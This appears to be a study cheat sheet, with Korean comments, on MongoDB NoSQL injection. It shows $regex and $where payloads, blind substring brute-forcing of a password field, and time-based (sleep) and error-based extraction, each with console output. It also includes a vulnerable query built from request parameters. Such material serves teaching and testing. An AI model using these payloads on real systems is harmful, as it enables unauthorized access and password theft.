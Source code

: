 ### NoSQL Injection
- $regex
```js
> db.user.find({upw: {$regex: "^a"}})
> db.user.find({upw: {$regex: "^b"}})
> db.user.find({upw: {$regex: "^c"}})
...
> db.user.find({upw: {$regex: "^g"}})
{ "_id" : ObjectId("5ea0110b85d34e079adb3d19"), "uid" : "guest", "upw" : "guest" }
```

- $where
```js
> db.user.find({$where:"return 1==1"})
{ "_id" : ObjectId("5ea0110b85d34e079adb3d19"), "uid" : "guest", "upw" : "guest" }
> db.user.find({uid:{$where:"return 1==1"}})
error: {
	"$err" : "Can't canonicalize query: BadValue $where cannot be applied to a field",
	"code" : 17287
}
```

- $where && substring
```js
> db.user.find({$where: "this.upw.substring(0,1)=='a'"})
> db.user.find({$where: "this.upw.substring(0,1)=='b'"})
> db.user.find({$where: "this.upw.substring(0,1)=='c'"})
...
> db.user.find({$where: "this.upw.substring(0,1)=='g'"})
{ "_id" : ObjectId("5ea0110b85d34e079adb3d19"), "uid" : "guest", "upw" : "guest" }
```

- Time Based
```js
db.user.find({$where: `this.uid=='${req.query.uid}'&&this.upw=='${req.query.upw}'`});
/*
/?uid=guest'&&this.upw.substring(0,1)=='a'&&sleep(5000)&&'1
/?uid=guest'&&this.upw.substring(0,1)=='b'&&sleep(5000)&&'1
/?uid=guest'&&this.upw.substring(0,1)=='c'&&sleep(5000)&&'1
...
/?uid=guest'&&this.upw.substring(0,1)=='g'&&sleep(5000)&&'1
=> 시간 지연 발생.
*/
```

- Error Based
```js
> db.user.find({$where: "this.uid=='guest'&&this.upw.substring(0,1)=='g'&&asdf&&'1'&&this.upw=='${upw}'"});
error: {
	"$err" : "ReferenceError: asdf is not defined near '&&this.upw=='${upw}'' ",
	"code" : 16722
}
// this.upw.substring(0,1)=='g' 값이 참이기 때문에 asdf 코드를 실행하다 에러 발생
> db.user.find({$where: "this.uid=='guest'&&this.upw.substring(0,1)=='a'&&asdf&&'1'&&this.upw=='${upw}'"});
// this.upw.substring(0,1)=='a' 값이 거짓이기 때문에 뒤에 코드가 작동하지 않음
```
